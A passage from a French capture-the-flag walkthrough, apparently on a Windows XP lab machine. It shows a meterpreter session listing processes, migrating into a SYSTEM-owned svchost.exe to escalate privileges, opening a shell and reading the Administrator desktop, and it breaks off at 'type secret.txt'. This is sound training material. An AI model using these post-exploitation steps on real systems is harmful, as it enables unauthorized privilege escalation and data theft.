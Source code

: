 Ou alors on continue avec notre meterpreter...  

Si on obtient un shell et que l'on tente d'aller dans le dossier administrator, l'accès est refusé :(  

C'est sans doute parce que l'on est dans un processus qui n'appartient pas à *SYSTEM*, on va donc déménager :

```plain
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session     User                          Path
 ---   ----  ----              ----  -------     ----                          ----
 0     0     [System Process]        4294967295                                
 4     0     System            x86   0           NT AUTHORITY\SYSTEM           
 176   360   ctfmon.exe        x86   2           BOBBY\bob                     C:\WINDOWS\system32\ctfmon.exe
 348   4     smss.exe          x86   0           NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 360   1868  explorer.exe      x86   2           BOBBY\bob                     C:\WINDOWS\Explorer.EXE
 396   348   csrss.exe         x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 420   348   winlogon.exe      x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 472   420   services.exe      x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 484   420   lsass.exe         x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 772   472   svchost.exe       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
 820   472   svchost.exe       x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 1252  348   winlogon.exe      x86   2           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe

meterpreter > migrate 772
[*] Migrating from 768 to 772...
[*] Migration completed successfully.
meterpreter > shell
Process 1188 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd "c:\documents and settings\administrator\desktop\"
cd "c:\documents and settings\administrator\desktop\"

C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D031-5715

 Directory of C:\Documents and Settings\Administrator\Desktop

03/25/2014  06:56 PM    <:DIR>          .
03/25/2014  06:56 PM    <:DIR>          ..
02/04/2013  03:25 PM                32 secret.txt
               1 File(s)             32 bytes
               2 Dir(s)     249,012,224 bytes free

C:\Documents and Settings\Administrator\Desktop>type secret.txt
```